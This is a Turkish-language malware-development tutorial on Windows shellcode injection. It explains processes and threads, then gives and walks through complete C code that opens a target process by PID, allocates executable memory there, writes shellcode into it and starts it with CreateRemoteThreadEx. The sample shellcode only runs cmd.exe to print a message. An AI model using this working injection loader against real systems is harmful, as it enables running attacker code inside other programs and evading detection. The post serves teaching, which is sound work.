

Merhabalar bu yazıda **Shellcode Execution** konusunu inceleyeceğiz.

## Nedir bu Process'ler

Maldev alanının ilk konusu olduğu için bazı temel şeyleri öğrenerek başlamamız gerekiyor.

Kabaca Processler, işletim sistemi tarafından herhangi bir programın yürütülmesi için oluşturulan çalışma birimleridir. Eğer bir program, kullanıcı veya İşletim Sistemi (OS) tarafından çalıştırılmak istenirse, öncelikle İşletim Sistemi tarafından belleğe yüklenir ardından yine İşletim Sistemi tarafından bu programın yürütülmesi için bir process oluşturulur. En sonda ise belleğe yüklenen programın bellek alanı, Process tarafından temsil edilir ve programın içerdiği komutları çalıştırılmaya başlanır.

Arayüz ortamında gördüğünüz herhangi bir programın dosyaları (kabaca program kodları), kullanıcı veya işletim sistemi tarafından çalıştırılmadığı sürece pasif halde olur. Eğer hedef program çalıştırılmak istenirse, önce diskten belleğe aktarılır ardından aktarılan bu kodlar yürütülmeye başlanır. Bu esnada ise program aktif hale gelmiş olur.

## Thread'ler Nedir?

> <i> "Bir Process, en basit ifadeyle, yürütülmekte olan bir programdır. Process bağlamında bir veya daha fazla thread çalışır. Thread ise işletim sisteminin işlemci zamanını tahsis ettiği temel birimdir. Bir Thread, başka bir thread tarafından yürütülmekte olan kısımlar da dahil olmak üzere, işlem kodunun herhangi bir bölümünü yürütebilir." </i>

- Microsoft Learn - Process and Threads

Process’lere göre daha hızlı ve hafif olan Thread’ler, kabaca tanımıyla İşletim Sisteminde bağımsız olarak çalışan birimlerdir. Herhangi bir process içerisinde bir veya daha fazla thread olabilir. Dolayasıyla Process’ler, Thread’ler sayesinde birden fazla işi aynı anda yapabilir.

Thread aracılığıyla Process’lerin birden fazla işi aynı anda yapılabileceğinden bahsettim. Bunu biraz daha detaylandıralım. Örneğin bir web tarayacısı düşünün. Bu web tarayıcısının bir thread ile kullanıcının arayüzle etkileşimi yönetilirken diğer thread’ler ile arka planda web sayfaları yüklemek gibi işlemleri aynı anda gerçekleştirebilir. Örnek açısından aşağıda Windows 11 ortamında Task Manager aracılığıyla Firefox Process'in altındaki Thread listesi gösterilmiştir: <br/> <br/>


## Shellcode Execution Nedir?

Shellcode Execution genellikle process injection teknikleriyle ilişkilidir. Saldırgan, shellcode'u bir hedef sürecin belleğine enjekte ettikten sonra, bu kodun çalıştırılmasını sağlayarak hedef sistemde kontrol elde edebilir. 

## Kod 

Github üzerinde paylaştığım örnek kod parçasına [buradan](https://github.com/0xbekoo/maldev/blob/main/C/Shellcode-Injection/main.c) erişebilirsiniz.

```c
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>

/* 
    cmd /K "echo Shellcode Injection with bekoo"
*/
char Shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x4b\x20\x22\x65"
"\x63\x68\x6f\x20\x53\x68\x65\x6c\x6c\x63\x6f\x64\x65\x20"
"\x49\x6e\x6a\x65\x63\x74\x69\x6f\x6e\x20\x77\x69\x74\x68"
"\x20\x62\x65\x6b\x6f\x6f\x22\x00";

int main(int argc, char* argv[]) {
    if (argc < 2) {
        printf("Usage: .\\program.exe <PID>");
        return -1;
    }
    DWORD       PID = atoi(argv[1]);
    HANDLE      HandleProcess = NULL;
    HANDLE      HandleThread = NULL;
    LPVOID      RemoteBuffer = NULL;

    HandleProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    if (HandleProcess == NULL) {
        printf("Failed to Open Target Process! Error Code: 0x%lx", GetLastError());
        return -1;
    }

    RemoteBuffer = VirtualAllocEx(HandleProcess, NULL, sizeof(Shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
    if (RemoteBuffer == NULL) {
        printf("Failed to Allocated Memory for DLL! Error Code: 0x%lx", GetLastError());
        CloseHandle(HandleProcess);
        return -1;
    }

    if (!(WriteProcessMemory(HandleProcess, RemoteBuffer, Shellcode, sizeof(Shellcode), 0))) {
        printf("Failed to write dllPath to Allocated Memory Error Code: 0x%lx", GetLastError());
        CloseHandle(HandleProcess);
        return -1;
    }

    HandleThread = CreateRemoteThreadEx(HandleProcess, NULL, 0, (LPTHREAD_START_ROUTINE)RemoteBuffer, NULL, 0, 0, 0);
    if (HandleThread == NULL) {
        printf("Failed to Create Thread! Error Code: 0x%lx\n", GetLastError());
        CloseHandle(HandleProcess);
        return -1;
    }
    WaitForSingleObject(HandleThread, INFINITE);
    CloseHandle(HandleThread);
    CloseHandle(HandleProcess);

    return 0;
}
```

Detaylıca göz atalım:

```c
char Shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x4b\x20\x22\x65"
"\x63\x68\x6f\x20\x53\x68\x65\x6c\x6c\x63\x6f\x64\x65\x20"
"\x49\x6e\x6a\x65\x63\x74\x69\x6f\x6e\x20\x77\x69\x74\x68"
"\x20\x62\x65\x6b\x6f\x6f\x22\x00";
```

Bu shellcode, cmd.exe'yi açarak "Shellcode Injection with bekoo" yazısını ekrana yazdıran bir shellcode'dur. Bu shellcode'u hedef process'e enjekte edeceğiz.

```c
int main(int argc, char* argv[]) {
    if (argc < 2) {
        printf("Usage: .\\program.exe <PID>");
        return -1;
    }
    DWORD       PID = atoi(argv[1]);
    HANDLE      HandleProcess = NULL;
    HANDLE      HandleThread = NULL;
    LPVOID      RemoteBuffer = NULL;
    ...
```

Programın çalıştırılmasından ardından ilk olarak main içerisinde argc değişkenini kontrol ediyoruz. Bu değişken, programın çalıştırılmasında verilen argüman sayısını tutar. Eğer argc değişkeni 2'den küçükse, programın doğru kullanımını ekrana bastırıp -1 ile programı return ediyoruz. 

Daha sonra malware'in çalıştırılması için gereken değişkenleri oluşturuyoruz:

- **PID:** Bu değişken, hedef process'in PID'sini tutar.
- **HandleProcess:** Bu değişken, hedef process'in handle'ini tutmak için kullanılır.
- **HandleThread:** Bu değişken, hedef process'te oluşturulacak thread'ın handle'ını tutmak için kullanılır.
- **RemoteBuffer:** Bu değişken, hedef process'te oluşturulacak shellcode'un adresini tutmak için kullanılır.

```c
HandleProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
if (HandleProcess == NULL) {
    printf("Failed to Open Target Process! Error Code: 0x%lx", GetLastError());
    return -1;
}
```

Bu kısımda, hedef process'in handle'ını alıyoruz. Yani hedef programa erişim sağlıyoruz gibi düşünebilirsiniz. Eğer hedef process'in handle'ını alamazsak, hata mesajı ekrana bastırıp -1 ile programı return ediyoruz.

```c
RemoteBuffer = VirtualAllocEx(HandleProcess, NULL, sizeof(Shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
if (RemoteBuffer == NULL) {
    printf("Failed to Allocated Memory for DLL! Error Code: 0x%lx", GetLastError());
    CloseHandle(HandleProcess);
    return -1;
}
```

Daha sonra hedef process'in bellek alanında, shellcode'u tutacak bir alan rezerve ediyoruz. Eğer bu işlem başarısız olursa, hata mesajı ekrana bastırıp -1 ile programı return ediyoruz.

```c
if (!(WriteProcessMemory(HandleProcess, RemoteBuffer, Shellcode, sizeof(Shellcode), 0))) {
    printf("Failed to write dllPath to Allocated Memory Error Code: 0x%lx", GetLastError());
    CloseHandle(HandleProcess);
    return -1;
}
```

Bu kısımda, hedef process'in bellek alanına shellcode'u yazıyoruz. Eğer bu işlem başarısız olursa, hata mesajı ekrana bastırıp -1 ile programı return ediyoruz.

```c
HandleThread = CreateRemoteThreadEx(HandleProcess, NULL, 0, (LPTHREAD_START_ROUTINE)RemoteBuffer, NULL, 0, 0, 0);
if (HandleThread == NULL) {
    printf("Failed to Create Thread! Error Code: 0x%lx\n", GetLastError());
    CloseHandle(HandleProcess);
    return -1;
}
WaitForSingleObject(HandleThread, INFINITE);
CloseHandle(HandleThread);
CloseHandle(HandleProcess);

return 0;
}
```

Bu kısımda ise hedef process'te yeni bir thread oluşturuyoruz. Bu thread, hedef process'in bellek alanında bulunan shellcode'u çalıştıracaktır. Eğer bu işlem başarısız olursa, hata mesajı ekrana bastırıp -1 ile programı return ediyoruz.

Son olarak ise WaitForSingleObject aracılığıyla oluşturduğumuz thread'ın bitmesini bekliyoruz ve ardından hedef process'in handle'larını serbest bırakıyoruz.
